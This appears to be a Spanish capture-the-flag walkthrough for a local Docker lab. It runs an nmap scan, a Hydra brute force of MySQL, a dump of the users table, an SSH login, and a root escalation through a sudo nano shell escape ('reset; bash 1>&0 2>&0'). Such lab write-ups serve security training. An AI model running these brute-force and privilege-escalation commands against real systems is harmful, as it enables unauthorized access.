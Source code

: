 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh capypenguin.tar
```

![Pasted image 20250203094357](https://github.com/user-attachments/assets/79ea3120-a6fe-4f23-9835-bc27194c4436)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203094438](https://github.com/user-attachments/assets/4cc76929-ea35-474a-b209-1feabaa525ba)

Nos metemos en la web:

![Pasted image 20250203094615](https://github.com/user-attachments/assets/6336d6a1-2073-459b-969c-b7e29f672040)

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```Bash
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![Pasted image 20250203094822](https://github.com/user-attachments/assets/94378cff-82ba-4cc0-b80e-0d2e85fe6cd7)

Quitamos los espacios en blanco:

```Bash
sed -i 's/ //g' invertido.txt
```

![Pasted image 20250203094839](https://github.com/user-attachments/assets/7ddc6cb3-635f-4fc0-84a6-fc80091cee5d)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l capybarauser -P invertido.txt mysql://172.17.0.2
```

![Pasted image 20250203105759](https://github.com/user-attachments/assets/548465eb-16f2-486d-9005-bb676a52c5fd)

Nos conectamos con **MySQL**:

```Bash
mysql -h 172.17.0.2 -u capybarauser -pie168
```

![Pasted image 20250203105948](https://github.com/user-attachments/assets/8cbda943-80dd-48a1-ab0e-cafa918e9c15)

```MySQL
SHOW databases;
```

![Pasted image 20250203110027](https://github.com/user-attachments/assets/af26f4ab-723a-4297-9b86-6d2fc51cbce2)

```MySQL
USE pinguinasio_db;
```

![Pasted image 20250203110129](https://github.com/user-attachments/assets/dc8b6378-7c4a-4b69-9ef7-34a7d50dc044)

```MySQL
SHOW tables;
```

![Pasted image 20250203110206](https://github.com/user-attachments/assets/b2cf79b3-0627-436f-b317-737276764c9b)

```MySQL
SELECT * FROM users;
```
![Pasted image 20250203110257](https://github.com/user-attachments/assets/c05028b4-f294-4e5e-92bc-701e131f3b21)

Nos conectamos con **SSH**:

```Bash
ssh mario@172.17.0.2
```

![Pasted image 20250203110456](https://github.com/user-attachments/assets/3ea658de-069c-4972-82c2-260f034a8c38)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250203110650](https://github.com/user-attachments/assets/4875a034-86dd-4447-9c7b-fc0b2c62258a)

```Bash
sudo nano
```

![Pasted image 20250203111033](https://github.com/user-attachments/assets/5ff4718a-f8f4-4b48-be2b-fa2bc8f0f9a3)

![Pasted image 20250203111422](https://github.com/user-attachments/assets/49dbac76-6022-4654-824c-511c2f41cb6b)

```Bash
cntrl + r
```

![Pasted image 20250203111435](https://github.com/user-attachments/assets/fe172ee6-c91e-44ee-9e2c-ba7c28aca4dc)

```Bash
cntrl + x
```

![Pasted image 20250203111054](https://github.com/user-attachments/assets/23251a7d-1100-4a32-b4f5-98037413860b)

```Bash
reset; bash 1>&0 2>&0
```

![Pasted image 20250203111116](https://github.com/user-attachments/assets/4c46f7d6-769d-4991-b4cf-d0d44adb493c)

![Pasted image 20250203111139](https://github.com/user-attachments/assets/1ab3dba7-d505-4429-96db-b7fc5aad2432)

```Bash
cntrl + l
```

![Pasted image 20250203111229](https://github.com/user-attachments/assets/34229a07-1b87-4acc-9ebc-0564826ee4a7)

```Bash
whoami
```

![Pasted image 20250203111255](https://github.com/user-attachments/assets/7b6ebfdf-702e-42db-80c0-362cf86b37d9)
